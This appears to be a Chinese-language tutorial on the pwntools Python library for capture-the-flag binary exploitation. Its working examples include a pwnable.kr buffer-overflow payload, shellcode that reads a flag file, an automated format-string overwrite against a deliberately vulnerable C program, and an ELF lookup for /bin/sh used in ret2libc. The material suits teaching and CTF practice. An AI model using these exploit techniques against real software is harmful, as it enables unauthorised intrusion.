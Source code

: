 # Pwntools

## remote

```python
from pwn import *
c = remote("pwnable.kr", 9000)
c.sendline("AAAA" * 13 + p32(0xcafebabe))
c.interactive()
```

`remote("domain/ip", port)`

- `send(payload)` 发送payload
- `sendline(payload)` 发送payload，并进行换行（末尾**\n**）
- `sendafter(some_string, payload)` 接收到 some_string 后, 发送你的 payload
- `recvn(N)` 接受 N(数字) 字符
- `recvline()` 接收一行输出
- `recvlines(N)` 接收 N(数字) 行输出
- `recvuntil(some_string)` 接收到 some_string 为止

`p32`可以转换整数到小端序.同样存在`p16 p64`

## process

```python
from pwn import *
 
p = process("./asm")
context.log_level = 'DEBUG'
gdb.attach(p)
 
context(arch='amd64', os='linux')
 
shellcode = shellcraft.amd64.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
shellcode += shellcraft.amd64.linux.open('rsp',0,0)
shellcode += shellcraft.amd64.linux.read('rax','rsp',0)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 100)
 
p.recvuntil('shellcode: ')
p.send(asm(shellcode))
log.success(p.recvall())
```

`process` 和`remote`类似. `process` 则通过你声明的二进制文件路径在本地创建新的进程. 除了 I/O, `process` 返回的对象可以通过 `gdb.attach(p)` 将进程attach到gdb上. Attach 之后, gdb 便可以调试该程序来 (设置 breakpoints, 查看 stack, 以及简单的反汇编). 

 当我们想查看服务器输出时，并不需要在每个 `recvline` 或者 `recvuntil` 前加 `print`. 当 `context.log_level` 被设置为 `"DEBUG"` , 我们的输入和服务器的输出会被直接输出 

 `shellcraft` 是一个帮忙生成shellcode的类. 在我们的例子中, 我们 *open* 了一个文件并 *read* 文件到 *stdout*. 关于这个类更多的文档, 你可以查阅 [官方文档](http://docs.pwntools.com/en/stable/shellcraft.html). 

## FmtStr

```python
from pwn import *
import tempfile
 
program = tempfile.mktemp()
source  = program + ".c"
write(source, '''
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#define MEMORY_ADDRESS ((void*)0x11111000)
#define MEMORY_SIZE 1024
#define TARGET ((int *) 0x11111110)
int main(int argc, char const *argv[])
{
       char buff[1024];
       void *ptr = NULL;
       int *my_var = TARGET;
       ptr = mmap(MEMORY_ADDRESS, MEMORY_SIZE, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);
       if(ptr != MEMORY_ADDRESS)
       {
               perror("mmap");
               return EXIT_FAILURE;
       }
       *my_var = 0x41414141;
       write(1, &my_var, sizeof(int *));
       scanf("%s", buff);
       dprintf(2, buff);
       write(1, my_var, sizeof(int));
       return 0;
}''')
cmdline = ["gcc", source, "-Wno-format-security", "-m32", "-o", program]
process(cmdline).wait_for_close()
def exec_fmt(payload):
    p = process(program)
    p.sendline(payload)
    return p.recvall()
 
autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
p = process(program, stderr=PIPE)
addr = u32(p.recv(4))
payload = fmtstr_payload(offset, {addr: 0x1337babe})
p.sendline(payload)
print hex(unpack(p.recv(4)))
```

 有了 `FmtStr`, 我们不用算偏移量算到疯. 我们需要先构造一个可以接收我们输入并返回格式化字符串输出的函数. 接着，我们可以得到 `autofmt`. 这个对象包含 `offset`, 即算好的偏移量. `fmtstr_payload(offset, {address: value})` 帮我们生成最后的payload. 第一个参数 `offset` 用 `autofmt.offset` 算好的即可. 然后, 我们需要声明 `{address: value}` 来覆盖address的内容成对应的value. 我们还可以同时改写多个地址: `{address1: value1, address2:value2,..., address: valueN}`. 

 有些情况不能自动生成payload. 以下文档介绍了如何手动生成payload [fmtstr_payload](http://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload). 

## ELF()

 有些题目给了我们libc. 用 `gdb> x function1 — function2` 算偏移量太麻烦了, 因此有了 `ELF`. 

```python
from pwn import *
 
e = ELF('./example_file')
print hex(e.address)  # 0x400000
print hex(e.symbols['write']) # 0x401680
print hex(e.got['write']) # 0x60b070
print hex(e.plt['write']) # 0x401680
offset = e.symbols['system'] - e.symbols['printf'] # calculate offset
binsh_address = next(e.search('/bin/sh\x00')) # find address which contains /bin/sh
```

和 `process()` 一样, 我们只用将路径给 `ELF(path)` 即可分析 ELF.

 

我们有以下几种方法操纵ELF:

- `symbols['a_function']` 找到 `a_function` 的地址
- `got['a_function']` 找到 `a_function`的 got
- `plt['a_function']` 找到 `a_function` 的 plt
- `next(e.search("some_characters"))` 找到包含 `some_characters`（字符串，汇编代码或者某个数值）的地址.

 https://bbs.pediy.com/thread-247217.htm 



## p32 p64 u32 u64

`p32() p64()`数字转`bytes`，`u32 u64`字符串转数字

`p32().decode()`

